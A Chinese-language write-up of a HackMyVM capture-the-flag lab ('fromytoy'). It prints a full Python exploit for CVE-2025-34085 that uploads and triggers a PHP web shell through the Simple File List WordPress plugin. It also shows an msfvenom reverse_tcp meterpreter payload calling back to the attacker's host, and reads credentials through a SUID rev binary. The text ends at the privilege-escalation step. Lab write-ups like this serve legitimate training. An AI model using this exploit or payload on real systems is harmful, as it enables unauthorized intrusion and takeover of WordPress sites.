






端口扫描 1 2 3 4 5 6 7 8 9 10 11 12 13 ┌──(kali㉿kali)-[~/HMV/fromytoy] └─$ sudo nmap -p- 192.168.10.54 Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-06 17:08 CST Nmap scan report for 192.168.10.54 Host is up (0.00060s latency). Not shown: 65532 closed tcp ports (reset) PORT STATE SERVICE 22/tcp open ssh 80/tcp open http 3000/tcp open ppp MAC Address: 0A:AB:09:75:52:32 (Unknown) Nmap done : 1 IP address (1 host up) scanned in 1.85 seconds
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 ┌──(kali㉿kali)-[~/HMV/fromytoy] └─$ sudo nmap -sT -sC -sV -p 22,80,3000 192.168.10.54 Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-06 17:12 CST Nmap scan report for 192.168.10.54 Host is up (0.0038s latency). PORT STATE SERVICE VERSION 22/tcp open ssh OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0) | ssh-hostkey: | 3072 f6:a3:b6:78:c4:62:af:44:bb:1a:a0:0c:08:6b:98:f7 (RSA) | 256 bb:e8:a2:31:d4:05:a9:c9:31:ff:62:f6:32:84:21:9d (ECDSA) |_ 256 3b:ae:34:64:4f:a5:75:b9:4a:b9:81:f9:89:76:99:eb (ED25519) 80/tcp open http Apache httpd 2.4.62 ((Debian)) |_http-server-header: Apache/2.4.62 (Debian) |_http-title: Site doesn't have a title (text/html). 3000/tcp open http Apache httpd 2.4.51 ((Debian)) |_http-title: VOCALOID NEXUS – The Cyber-Digital Soul Archive |_http-server-header: Apache/2.4.51 (Debian) |_http-generator: WordPress 6.9 | http-robots.txt: 1 disallowed entry |_/wp-admin/ MAC Address: 0A:AB:09:75:52:32 (Unknown) Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . Nmap done: 1 IP address (1 host up) scanned in 22.87 seconds
web 渗透 发现开放的 80 和 3000 两个端口起的都是 web 服务，其中 3000 端口的 web 探测出来是 Wordpress ，还有一些 robots 信息。
先进入 80 端口，发现是个空白页面，那就进入 3000 端口：

发现页面的最下面有一个 /wp-content/plugins/simple-file-list/ ，猜测是给的 web 路径的提示，尝试访问这个路径，发现其确实存在。

上面说 simple-file-list 是个插件，那这个插件就可能存在已知的漏洞，去网上进行搜索。
搜索发现，该插件存在一个 RCE 的漏洞，CVE-2025-34085 。
漏洞利用代码如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 135 136 137 138 139 140 141 142 143 144 145 146 147 148 149 150 151 152 153 154 155 156 157 158 159 160 161 banner = r""" _______ ________ ___ ___ ___ _____ ____ _ _ ___ ___ _____ / ____\ \ / / ____| |__ \ / _ \__ \| ____| |___ \| || | / _ \ / _ \| ____| | | \ \ / /| |__ ______ ) | | | | ) | |__ ______ __) | || |_| | | | (_) | |__ | | \ \/ / | __| |______| / /| | | |/ /|___ \ |______| |__ <|__ _| | | |> _ <|___ \ | |____ \ / | |____ / /_| |_| / /_ ___) | ___) | | | | |_| | (_) |___) | \_____| \/ |______| |____|\___/____|____/ |____/ |_| \___/ \___/|____/ CVE-2025-34085 Unauthenticated RCE Exploit Coded by Mrj Haxcore """ import requestsimport hashlibimport timeimport randomimport stringimport sysimport uuiddef rand_str (n=8 ): return '' .join(random.choices(string.ascii_lowercase + string.digits, k=n)) def generate_payload (): with open ('payload' ,'br' ) as f: payload = f.read() print (payload) return payload def upload_shell (target, filename, payload ): boundary = f"----WebKitFormBoundary{uuid.uuid4().hex [:16 ]} " upload_url = f"{target} /wp-content/plugins/simple-file-list/ee-upload-engine.php" upload_dir = "/wp-content/uploads/simple-file-list/" timestamp = str (int (time.time())) token = hashlib.md5(f'unique_salt{timestamp} ' .encode()).hexdigest() fake_file = payload body = ( f"--{boundary} \r\n" f'Content-Disposition: form-data; name="eeSFL_ID"\r\n\r\n' f"1\r\n" f"--{boundary} \r\n" f'Content-Disposition: form-data; name="eeSFL_FileUploadDir"\r\n\r\n' f"{upload_dir} \r\n" f"--{boundary} \r\n" f'Content-Disposition: form-data; name="eeSFL_Timestamp"\r\n\r\n' f"{timestamp} \r\n" f"--{boundary} \r\n" f'Content-Disposition: form-data; name="eeSFL_Token"\r\n\r\n' f"{token} \r\n" f"--{boundary} \r\n" f'Content-Disposition: form-data; name="file"; filename="{filename} .png"\r\n' f"Content-Type: image/png\r\n\r\n" ).encode() + fake_file + f"\r\n--{boundary} --\r\n" .encode() headers = { "Content-Type" : f"multipart/form-data; boundary={boundary} " , "User-Agent" : "Mozilla/5.0 (Windows NT 10.0; Win64; x64)" , "Referer" : f"{target} /wp-admin" , "Origin" : target, "Accept" : "*/*" } print (f"[+] Uploading shell as {filename} .png..." ) try : r = requests.post(upload_url, data=body, headers=headers, timeout=10 ) except Exception as e: print (f"[-] Upload request failed: {e} " ) return False if r.status_code == 200 and "SUCCESS" in r.text: print ("[+] Upload successful." ) return True else : print (f"[-] Upload failed. Response code: {r.status_code} " ) return False def rename_shell (target, filename ): url = f"{target} /wp-content/plugins/simple-file-list/ee-file-engine.php" extensions = ['php' , 'php5' , 'phtml' , 'phar' , 'php3' , 'php4' , 'pHp' ] headers = { 'User-Agent' : 'Mozilla/5.0 (Windows NT 10.0; Win64; x64)' , 'Referer' : f'{target} /wp-admin' , 'Origin' : target, 'Content-Type' : 'application/x-www-form-urlencoded' , 'X-Requested-With' : 'XMLHttpRequest' , 'Accept' : '*/*' } for ext in extensions: new_name = filename data = { 'eeSFL_ID' : '1' , 'eeListFolder' : '/' , 'eeFileOld' : f"{filename} .png" , 'eeFileAction' : f"Rename|{new_name} " } print (f"[+] Trying to rename to: {new_name} ..." ) try : r = requests.post(url, data=data, headers=headers, timeout=10 ) except Exception as e: print (f"[-] Rename request failed: {e} " ) continue if r.status_code == 200 : print (f"[+] Rename successful: {new_name} " ) return new_name else : print (f"[-] Rename failed. Response code: {r.status_code} " ) print ("[-] All rename attempts failed." ) return None def trigger_shell (target, filename ): url = f"{target} /wp-content/uploads/simple-file-list/{filename} " print (f"[+] Triggering shell: {url} ?cmd=id" ) headers = { "User-Agent" : "Mozilla/5.0 (Windows NT 10.0; Win64; x64)" , "Accept" : "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" , "Referer" : target, } try : r = requests.get(url, params={"cmd" : "id" }, headers=headers, timeout=10 ) except Exception as e: print (f"[-] Shell trigger failed: {e} " ) return if r.status_code == 200 : print ("[+] Shell output:" ) print (r.text.strip()) else : print (f"[-] Shell returned HTTP {r.status_code} " ) def main (): print (banner) if len (sys.argv) != 2 : print (f"Usage: python3 {sys.argv[0 ]} http://target.site" ) sys.exit(1 ) target = sys.argv[1 ].rstrip('/' ) filename = rand_str() payload = generate_payload() if upload_shell(target, filename, payload): new_filename = rename_shell(target, filename) if new_filename: trigger_shell(target, new_filename) if __name__ == "__main__" : main()
该漏洞可使我们上传任意文件，从而获得 web shell。
但获得 web shell 之后，尝试使用了多种命令行的方法进行反弹 shell ，都没有成功。
那就用 msfvenom 生成了一个反弹 shell 的木马：
1 2 ┌──(kali㉿kali)-[~/HMV/fromytoy] └─$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.10.100 LPORT=4444 -f elf -o payload
上传 web shell 和该 ELF 木马：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 ┌──(kali㉿kali)-[~/HMV/fromytoy] └─$ python3 exp.py http://192.168.10.54:3000 _______ ________ ___ ___ ___ _____ ____ _ _ ___ ___ _____ / ____\ \ / / ____| |__ \ / _ \__ \| ____| |___ \| || | / _ \ / _ \| ____| | | \ \ / /| |__ ______ ) | | | | ) | |__ ______ __) | || |_| | | | (_) | |__ | | \ \/ / | __| |______| / /| | | |/ /|___ \ |______| |__ <|__ _| | | |> _ <|___ \ | |____ \ / | |____ / /_| |_| / /_ ___) | ___) | | | | |_| | (_) |___) | \_____| \/ |______| |____|\___/____|____/ |____/ |_| \___/ \___/|____/ CVE-2025-34085 Unauthenticated RCE Exploit Coded by Mrj Haxcore [+] Uploading shell as troijqv8.png... [+] Upload successful. [+] Trying to rename to: troijqv8.php... [+] Rename successful: troijqv8.php [+] Triggering shell: http://192.168.10.54:3000/wp-content/uploads/simple-file-list/troijqv8.php?cmd=id [+] Shell output: uid=33(www-data) gid=33(www-data) groups =33(www-data) ┌──(kali㉿kali)-[~/HMV/fromytoy] └─$ python3 exp.py http://192.168.10.54:3000 _______ ________ ___ ___ ___ _____ ____ _ _ ___ ___ _____ / ____\ \ / / ____| |__ \ / _ \__ \| ____| |___ \| || | / _ \ / _ \| ____| | | \ \ / /| |__ ______ ) | | | | ) | |__ ______ __) | || |_| | | | (_) | |__ | | \ \/ / | __| |______| / /| | | |/ /|___ \ |______| |__ <|__ _| | | |> _ <|___ \ | |____ \ / | |____ / /_| |_| / /_ ___) | ___) | | | | |_| | (_) |___) | \_____| \/ |______| |____|\___/____|____/ |____/ |_| \___/ \___/|____/ CVE-2025-34085 Unauthenticated RCE Exploit Coded by Mrj Haxcore b'\x7fELF\x02\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x02\x00>\x00\x01\x00\x00\x00x\x00@\x00\x00\x00\x00\x00@\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00@\x008\x00\x01\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x07\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00@\x00\x00\x00\x00\x00\x00\x00@\x00\x00\x00\x00\x00\xfa\x00\x00\x00\x00\x00\x00\x00|\x01\x00\x00\x00\x00\x00\x00\x00\x10\x00\x00\x00\x00\x00\x001\xffj\tX\x99\xb6\x10H\x89\xd6M1\xc9j"AZj\x07Z\x0f\x05H\x85\xc0xQj\nAYPj)X\x99j\x02_j\x01^\x0f\x05H\x85\xc0x;H\x97H\xb9\x02\x00\x11\\\xc0\xa8\ndQH\x89\xe6j\x10Zj*X\x0f\x05YH\x85\xc0y%I\xff\xc9t\x18Wj#Xj\x00j\x05H\x89\xe7H1\xf6\x0f\x05YY_H\x85\xc0y\xc7j<Xj\x01_\x0f\x05^j~Z\x0f\x05H\x85\xc0x\xed\xff\xe6' [+] Uploading shell as 7gp7zn84.png... [+] Upload successful. [+] Trying to rename to: 7gp7zn84... [+] Rename successful: 7gp7zn84 [+] Triggering shell: http://192.168.10.54:3000/wp-content/uploads/simple-file-list/7gp7zn84?cmd=id [+] Shell output: ELF>x@@@8@@ú|1ÿj X™¶H‰ÖM1Éj"AZjZH…ÀxQj AYPj)X™j_j^H…Àx;H—H¹\À¨ dQH‰æjZj*XYH…Ày%IÿÉt▒Wj#XjjH‰çH1öYY_H…ÀyÇj<Xj_^j~ZH…Àxíÿæ
查看文件：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 ┌──(kali㉿kali)-[~/HMV/fromytoy] └─$ curl 'http://192.168.10.54:3000/wp-content/uploads/simple-file-list/troijqv8.php?cmd=ls%20-liah' total 672K 785522 drwxr-xr-x 2 www-data www-data 4.0K Feb 6 09:31 . 785394 drwxr-xr-x 4 www-data www-data 4.0K Jan 20 12:36 .. 785529 -rw-r--r-- 1 www-data www-data 0 Feb 1 08:05 123.txt 785533 -rw-r--r-- 1 www-data www-data 4 Feb 2 01:54 456.txt 785538 -rw-r--r-- 1 www-data www-data 250 Feb 6 09:27 7gp7zn84 785527 -rw-r--r-- 1 www-data www-data 30 Feb 1 07:52 7z26z9v3.php 785524 -rw-r--r-- 1 www-data www-data 597K Jan 20 04:01 Simple-File-List.pdf 785532 -rw-r--r-- 1 www-data www-data 5.4K Feb 1 08:10 fbs8aij3.php 785536 -rwxrwxrwx 1 www-data www-data 250 Feb 2 02:16 gwuagnbc 785523 -rw-r--r-- 1 www-data www-data 977 Jan 20 04:01 index.html 785528 -rw-r--r-- 1 www-data www-data 30 Feb 1 07:59 iukrw2w3.php 785535 -rw-r--r-- 1 www-data www-data 760 Feb 2 02:10 n6i0i9yh.php 785534 -rw-r--r-- 1 www-data www-data 26 Feb 2 02:29 test.123 785537 -rw-r--r-- 1 www-data www-data 66 Feb 2 02:33 test.txt 785539 -rw-r--r-- 1 www-data www-data 30 Feb 6 09:31 troijqv8.php 785530 -rw-r--r-- 1 www-data www-data 6.5K Feb 1 08:09 vz89thx0.php 785531 -rw-r--r-- 1 www-data www-data 6.5K Feb 1 08:10 z4iayab4.php ┌──(kali㉿kali)-[~/HMV/fromytoy] └─$ curl 'http://192.168.10.54:3000/wp-content/uploads/simple-file-list/troijqv8.php?cmd=file%207g*' 7gp7zn84: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, no section header
用 chmod 赋予木马执行权限（注意用 chmod 777，因为该机器用 chmod +x 好像会报错）：
1 2 ┌──(kali㉿kali)-[~/HMV/fromytoy] └─$ curl 'http://192.168.10.54:3000/wp-content/uploads/simple-file-list/troijqv8.php?cmd=chmod%20+x%207g*'
再次查看权限：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 ┌──(kali㉿kali)-[~/HMV/fromytoy] └─$ curl 'http://192.168.10.54:3000/wp-content/uploads/simple-file-list/troijqv8.php?cmd=ls%20-liah' total 672K 785522 drwxr-xr-x 2 www-data www-data 4.0K Feb 6 09:31 . 785394 drwxr-xr-x 4 www-data www-data 4.0K Jan 20 12:36 .. 785529 -rw-r--r-- 1 www-data www-data 0 Feb 1 08:05 123.txt 785533 -rw-r--r-- 1 www-data www-data 4 Feb 2 01:54 456.txt 785538 -rwxrwxrwx 1 www-data www-data 250 Feb 6 09:27 7gp7zn84 785527 -rw-r--r-- 1 www-data www-data 30 Feb 1 07:52 7z26z9v3.php 785524 -rw-r--r-- 1 www-data www-data 597K Jan 20 04:01 Simple-File-List.pdf 785532 -rw-r--r-- 1 www-data www-data 5.4K Feb 1 08:10 fbs8aij3.php 785536 -rwxrwxrwx 1 www-data www-data 250 Feb 2 02:16 gwuagnbc 785523 -rw-r--r-- 1 www-data www-data 977 Jan 20 04:01 index.html 785528 -rw-r--r-- 1 www-data www-data 30 Feb 1 07:59 iukrw2w3.php 785535 -rw-r--r-- 1 www-data www-data 760 Feb 2 02:10 n6i0i9yh.php 785534 -rw-r--r-- 1 www-data www-data 26 Feb 2 02:29 test.123 785537 -rw-r--r-- 1 www-data www-data 66 Feb 2 02:33 test.txt 785539 -rw-r--r-- 1 www-data www-data 30 Feb 6 09:31 troijqv8.php 785530 -rw-r--r-- 1 www-data www-data 6.5K Feb 1 08:09 vz89thx0.php 785531 -rw-r--r-- 1 www-data www-data 6.5K Feb 1 08:10 z4iayab4.php
运行该木马：
1 2 ┌──(kali㉿kali)-[~/HMV/fromytoy] └─$ curl 'http://192.168.10.54:3000/wp-content/uploads/simple-file-list/troijqv8.php?cmd=./7g*'
本地用 metasploit 监听：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 ┌──(kali㉿kali)-[~] └─$ msfconsole Metasploit tip: You can upgrade a shell to a Meterpreter session on many platforms using sessions -u <session_id> Unable to handle kernel NULL pointer dereference at virtual address 0xd34db33f EFLAGS: 00010046 eax: 00000001 ebx: f77c8c00 ecx: 00000000 edx: f77f0001 esi: 803bf014 edi: 8023c755 ebp: 80237f84 esp: 80237f60 ds: 0018 es: 0018 ss: 0018 Process Swapper (Pid: 0, process nr: 0, stackpage=80377000) Stack: 90909090990909090990909090 90909090990909090990909090 90909090.90909090.90909090 90909090.90909090.90909090 90909090.90909090.09090900 90909090.90909090.09090900 .......................... cccccccccccccccccccccccccc cccccccccccccccccccccccccc ccccccccc................. cccccccccccccccccccccccccc cccccccccccccccccccccccccc .................ccccccccc cccccccccccccccccccccccccc cccccccccccccccccccccccccc .......................... ffffffffffffffffffffffffff ffffffff.................. ffffffffffffffffffffffffff ffffffff.................. ffffffff.................. ffffffff.................. Code: 00 00 00 00 M3 T4 SP L0 1T FR 4M 3W OR K! V3 R5 I0 N5 00 00 00 00 Aiee, Killing Interrupt handler Kernel panic: Attempted to kill the idle task! In swapper task - not syncing =[ metasploit v6.4.56-dev ] + -- --=[ 2505 exploits - 1291 auxiliary - 431 post ] + -- --=[ 1610 payloads - 49 encoders - 13 nops ] + -- --=[ 9 evasion ] Metasploit Documentation: https://docs.metasploit.com/ msf6 > search linux/x64/meterpreter/reverse_shell [-] No results from search msf6 > search linux/x64/meterpreter/reverse_tcp Matching Modules ================ - ---- --------------- ---- ----- ----------- 0 payload/linux/x64/meterpreter/reverse_tcp . normal No Linux Mettle x64, Reverse TCP Stager Interact with a module by name or index. For example info 0, use 0 or use payload/linux/x64/meterpreter/reverse_tcp msf6 > use 0 msf6 payload(linux/x64/meterpreter/reverse_tcp) > show options Module options (payload/linux/x64/meterpreter/reverse_tcp): Name Current Setting Required Description ---- --------------- -------- ----------- LHOST yes The listen address (an interface may be specified) LPORT 4444 yes The listen port View the full module info with the info, or info -d command . msf6 payload(linux/x64/meterpreter/reverse_tcp) > set LHOST 192.168.10.100 LHOST => 192.168.10.100 msf6 payload(linux/x64/meterpreter/reverse_tcp) > exploit [*] Payload Handler Started as Job 0 msf6 payload(linux/x64/meterpreter/reverse_tcp) > [*] Started reverse TCP handler on 192.168.10.100:4444 [*] Sending stage (3045380 bytes) to 192.168.10.54 [*] Meterpreter session 1 opened (192.168.10.100:4444 -> 192.168.10.54:49146) at 2026-02-06 17:34:08 +0800
可以看到，在 metasploit 上收到了反弹回来的 meterpreter。
获取立足点 查看 sessions，并启动获取到的 shell：

我们目前是 www-data 用户， 并且发现 /home 目录下没有任何用户，猜测这是用 docker 启动的一个容器，我们要先找找信息。
发现在拿到 shell 的上一级目录下，有一个属于 miku 用户的 server_backup_info.txt 文件，且我们不可读。
推测我们需要想办法读取该文件，里面可能藏着 miku 用户的密码。
先查看属于 miku 用户的文件有哪些：
1 2 3 find / -user miku 2>/dev/null /usr/local/lib/.sys_log_rotator /var/www/html/wp-content/uploads/server_backup_info.txt
发现了两个文件，第一个 .sys_log_rotator 是个 ELF 文件，可以执行。
执行看看：
1 2 3 4 5 6 7 8 9 10 /usr/local/lib/.sys_log_rotator -h Usage: .sys_log_rotator [options] [file ...] Reverse lines characterwise. Options: -h, --help display this help -V, --version display version For more details see rev(1).
说是需要一个 file ，给它 /etc/passwd ：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 /usr/local/lib/.sys_log_rotator /etc/passwd hsab/nib/:toor/:toor:0:0:x:toor nigolon/nibs/rsu/:nibs/rsu/:nomead:1:1:x:nomead nigolon/nibs/rsu/:nib/:nib:2:2:x:nib nigolon/nibs/rsu/:ved/:sys:3:3:x:sys cnys/nib/:nib/:cnys:43556:4:x:cnys nigolon/nibs/rsu/:semag/rsu/:semag:06:5:x:semag nigolon/nibs/rsu/:nam/ehcac/rav/:nam:21:6:x:nam nigolon/nibs/rsu/:dpl/loops/rav/:pl:7:7:x:pl nigolon/nibs/rsu/:liam/rav/:liam:8:8:x:liam nigolon/nibs/rsu/:swen/loops/rav/:swen:9:9:x:swen nigolon/nibs/rsu/:pcuu/loops/rav/:pcuu:01:01:x:pcuu nigolon/nibs/rsu/:nib/:yxorp:31:31:x:yxorp nigolon/nibs/rsu/:www/rav/:atad-www:33:33:x:atad-www nigolon/nibs/rsu/:spukcab/rav/:pukcab:43:43:x:pukcab nigolon/nibs/rsu/:tsil/rav/:reganaM tsiL gniliaM:83:83:x:tsil nigolon/nibs/rsu/:dcri/nur/:dcri:93:93:x:cri nigolon/nibs/rsu/:stang/bil/rav/:)nimda( metsyS gnitropeR-guB stanG:14:14:x:stang nigolon/nibs/rsu/:tnetsixenon/:ydobon:43556:43556:x:ydobon nigolon/nibs/rsu/:tnetsixenon/::43556:001:x:tpa_ hs/nib/:ukim/emoh/::0001:0001:x:ukim
发现它把文件内容的每一行给翻转并输出了。
该文件存在 miku 用户的 SUID 权限，说不定可以读取刚才的 txt 文件，尝试读取：
1 2 3 4 5 6 7 8 9 10 11 ls -liah /usr/local/lib/.sys_log_rotator432317 -rwsr-xr-x 1 miku miku 15K Jan 20 05:04 /usr/local/lib/.sys_log_rotator /usr/local/lib/.sys_log_rotator server_backup_info.txt 01-10-5202 :etaD pukcaB noitacifirev gnidneP :sutatS :nimdasyS rof etoN .'yotymorf' tsoh rof slaitnederc yraropmet ot detreveR .deliaf noitator yek HSS ehT ukim :resU 93_uk1M_di0lac0V :drowssaP noitacifirev retfa elif siht eteled esaelP :TRELA YTIRUCES
可以看到它倒着输出了miku 用户的 password ，我们再倒回来就好了：
1 2 3 4 ┌──(kali㉿kali)-[~/HMV/fromytoy] └─$ rev 93_uk1M_di0lac0V V0cal0id_M1ku_39
用这个用户名密码进行 ssh 登录：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 ┌──(kali㉿kali)-[~/HMV/fromytoy] └─$ ssh miku@192.168.10.54 Warning: Permanently added '192.168.10.54' (ED25519) to the list of known hosts. miku@192.168.10.54's password: Linux fromytoy 4.19.0-27-amd64 #1 SMP Debian 4.19.316-1 (2024-06-25) x86_64 The programs included with the Debian GNU/Linux system are free software; the exact distribution terms for each program are described in the individual files in /usr/share/doc/*/copyright. Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent permitted by applicable law. Last login: Sun Feb 1 22:02:43 2026 from 192.168.0.109 miku@fromytoy:~$ ls user.txt miku@fromytoy:~$ cat user.txt 26d1ebd4ec8c55cc69f190d0d37f6dac 願うことさえ 許されない世界なのかな miku@fromytoy:~$
拿到了 user flag。
提权 sudo -l 发现当前用户可以执行一个 python 文件：
